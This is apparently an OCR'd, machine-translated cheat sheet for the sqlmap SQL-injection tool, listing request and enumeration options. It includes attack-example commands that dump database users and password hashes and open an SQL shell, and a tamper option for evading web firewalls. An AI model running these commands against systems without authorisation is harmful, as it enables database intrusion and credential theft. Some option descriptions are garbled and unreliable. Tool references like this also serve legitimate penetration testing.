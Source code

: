 `--tamper` bypasses the WEB firewall (WAF) Sqlmap by encoding by default with char()  

--tamper plugin directory \sqlmap-dev\tamper  

`Sqlmap -u "http:// www.2cto.com /news?id=1" --smart --level 3 --users` #smart Intelligent level execution test level  

Attack example:
`Sqlmap -u "http://url/news?id=1&Submit=Submit" --cookie="xxx" --string="Surname" --dbms=mysql --user --password`

## Request
These options can be used to specify how to connect to the target URL :

`--data=DATA`           Data string sent via POST  
`--cookie=COOKIE`				HTTP Cookie header  
`--cookie-urlencode`		URL encoding generated by cookie injection  
`--drop-set-cookie`			Ignore the Set-Cookie header of the response  
`--user-agent=AGENT`		Specifies the HTTP User --Agent header  
`--random-agent`				uses a randomly selected HTTP User --Agent header  
`--referer=REFERER`		  Specifies the HTTP Referer header  
`--headers=HEADERS`			Wrap separate, add other HTTP headers  
`--auth-type=ATYPE`			HTTP authentication type (basic, digest or NTLM) (Basic, Digest or NTLM)  
`--auth-cred=ACRED`			HTTP authentication credentials (username: password)  
`--auth-cert=ACERT`			HTTP certificate (key_file, cert_file)  
`--proxy=PROXY`				  Connect to the target URL using an HTTP proxy  
`--proxy-cred=PCRED`		HTTP Proxy Authentication Credentials (Username: Password)  
`--ignore-proxy`				ignores the system default HTTP proxy  
`--delay=DELAY`				  The delay between each HTTP request in seconds  
`--timeout=TIMEOUT`			Time to wait for the connection to time out (default is 30 seconds)  
`--retries=RETRIES`			Time to reconnect after connection timeout (default 3)  
`--scope=SCOPE`				  Regular expression for the filter target from the provided proxy log  
`--safe-url=SAFURL`			The url address that is frequently accessed during the test.  
`--safe-freq=SAFREQ`		Test request between visits, giving a secure URL  

## Enumeration

These options can be used to enumerate information about the back-end database management system, the structure and data in the tables. In addition, you can also run your own SQL statements.

`-b, --banner`				  Retrieve the identity of the database management system  
`--current-user`				retrieves the current user of the database management system  
`--current-db`				  retrieves the current database of the database management system  
`--is-dba`					    Detects whether the DBMS current user is DBA  
`--users` 					    enumerates database management system users  
`--passwords` 				  enumerates database management system user password hashes  
`--privileges` 				  enumerates permissions for database management system users  
`--roles`						    enumerates the roles of database management system users  
`--dbs`						      enumerates the database management system database  
`--tables`					    enumerates tables in the DBMS database  
`--columns`					    enumerates DBMS database table columns  
`--dump`						    dumps the entries in the database of the database management system  
`--dump-all`					  dumps entries in all DBMS database tables  
`--search` 					    search column(s), table(s) and/or database name(s)  
`-D DB` 						    The name of the database to be enumerated  
`-T TBL` 						    Database table to be enumerated  
`-C COL` 						    Database column to be enumerated  
`-U USER`						    database user used for enumeration  
`--exclude-sysdbs`			Exclude system database when enumerating tables  
`--start=LIMITSTART`		The first query output goes into the search  
`--stop=LIMITSTOP` 			The output of the last query goes into the search  
`--first=FIRSTCHAR`			Character search for the first query output word  
`--last=LASTCHAR`				Output word character retrieval for the last query  
`--sql-query=QUERY`			SQL statement to execute  
`--sql-shell`					  prompts interactive SQL shell  